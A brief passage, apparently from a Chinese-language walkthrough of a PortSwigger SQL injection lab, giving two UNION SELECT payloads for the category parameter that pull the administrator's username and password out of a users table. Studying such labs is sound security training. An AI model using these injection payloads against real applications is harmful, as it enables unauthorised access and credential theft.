 发现“1”是不回显的，直接跳到最后一步

**category=Gifts' union select '1',username || '~' || password from users where username='administrator'--**

![image-20250712003715021](portswigger.assets/image-20250712003715021.png)

或者用mysql的concat **category=Gifts' union select '1',concat(username,',',password) from users where username='administrator'--**
